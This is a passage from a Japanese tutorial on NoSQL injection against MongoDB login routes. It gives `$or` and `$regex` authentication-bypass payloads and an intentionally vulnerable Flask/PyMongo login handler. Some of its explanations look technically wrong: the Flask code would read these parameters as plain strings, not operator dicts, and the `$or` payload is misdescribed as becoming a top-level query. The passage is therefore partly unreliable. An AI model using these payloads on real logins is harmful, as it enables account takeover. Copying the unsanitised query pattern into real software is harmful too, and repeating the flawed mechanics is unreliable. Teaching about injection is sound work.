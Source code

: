 **攻撃手法:**

攻撃者は、`username`または`password`パラメータに`$or`を挿入して、常に`true`となる条件を作り出します。

例:
```
/login?username=admin&password[$or]=[{password: 'anything'}, {1: 1}]
```

これにより、クエリは次のようになります:
```javascript
{ username: 'admin', $or: [{ password: 'anything' }, { 1: 1 }] }
```

このクエリは、`username`が`admin`であれば、`password`が何であってもログインが成功します。

### 2. **`$regex`を利用した攻撃**

**概要:**
`$regex`演算子は、正規表現を使った検索を可能にします。攻撃者はこれを利用して、特定の条件を無視して任意のデータを取得することができます。

**脆弱性を持つコードの例:**

- **Python (FlaskとPyMongo)**

```python
from flask import Flask, request
from pymongo import MongoClient

app = Flask(__name__)
client = MongoClient('localhost', 27017)
db = client.mydatabase

@app.route('/login')
def login():
    username = request.args.get('username')
    password = request.args.get('password')

    query = {"username": username, "password": password}
    user = db.users.find_one(query)

    if user:
        return "Login successful!"
    else:
        return "Login failed!"
```

**攻撃手法:**

攻撃者は、`password`パラメータに`$regex`を挿入して、任意のパスワードでログインを成功させることができます。

例:
```
/login?username=admin&password[$regex]=.*
```

これにより、クエリは次のようになります:
```python
{"username": "admin", "password": {"$regex": ".*"}}
```
